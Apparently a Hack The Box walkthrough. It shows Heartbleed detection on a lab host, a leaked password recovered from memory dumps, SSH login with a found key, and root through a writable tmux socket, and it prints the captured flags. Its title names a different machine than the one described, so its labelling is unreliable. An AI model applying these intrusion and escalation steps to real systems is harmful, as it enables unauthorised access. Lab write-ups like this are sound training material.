 ```yaml
---
layout: post
title:  "HTB Bashed Linux"
description : 
tags: 
---
```


# Recon
Nmap scan
```ruby
Quick_10.10.10.79.nmap 10.10.10.79
Nmap scan report for 10.10.10.79
Host is up (0.026s latency).
Not shown: 997 closed ports
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
443/tcp open https
```
We find the site is vulnerable to Heartbleed attack
```ruby
| ssl-heartbleed:
| VULNERABLE:
| The Heartbleed Bug is a serious vulnerability in the popular OpenSSL cryptographic
software library. It allows for stealing information intended to be protected by SSL/TLS
encryption.
| State: VULNERABLE
| Risk factor: High
| OpenSSL versions 1.0.1 and 1.0.2-beta releases (including 1.0.1f and 1.0.2-beta1) of
OpenSSL are affected by the Heartbleed bug. The bug allows for reading memory of systems
protected by the vulnerable OpenSSL versions and could allow for disclosure of otherwise
encrypted confidential information as well as the encryption keys themselves.
```
We run sslyze just to corroborate
```ruby
CHECKING HOST(S) AVAILABILITY
 -----------------------------
 10.10.10.79:443 => 10.10.10.79:443
 SCAN RESULTS FOR 10.10.10.79:443 - 10.10.10.79:443
 --------------------------------------------------
 * OpenSSL Heartbleed:
 VULNERABLE - Server is vulnerable to Heartbleed
```
Dirbuster locates a directory called /dev/ that contain a **hype_key** file
We make use of cyberchef and use the option magic and we get a RSA-AES-128 key
we save it as hype.key format and wi will use it later with SSH
# Exploitation Heartbleed
Since we know the webiste is vuln to heartbleed we quiclly google " heartbleed python
github"
We use the script with the target IP and the number of iterations we want the script to run "-n 30"
After reviewing the ouptput we quickly notice a base64 string that repeats a lot so we copied and decode to get a passwd.
```ruby
aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==
```
```ruby
heartbleedbelievethehype
```
At this point is pretty clear that our path to exploitation is through SSH as we have a ssh key file and a password to use
We proceed to ssh into as user hype
```chmod 600 hype.key
ssh -i hype.key hype@10.10.10.79
```
NOTE:for some reason doing a 755 on hype.key I would get a warning message that was stopping
from login.

# Privelege Escalation
We cat the bash_history file and we find the following:
```ruby
exit
exot
exit
ls -la
cd /
ls -la
cd .devs
ls -la
tmux -L dev_sess
tmux a -t dev_sess
tmux --help
tmux -S /.devs/dev_sess
```
There is a shell program called tmux owned by root
but with group permission set with "hype" to which we are part of it so we execute
```ruby
tmux -S /.devs/dev_sess
```
and we get ROOT!
```ruby
USER  "e6710a5464769fd5fcd216e076961750" 
ROOT  "f1bb6d759df1f272914ebbc9ed7765b2" 
```
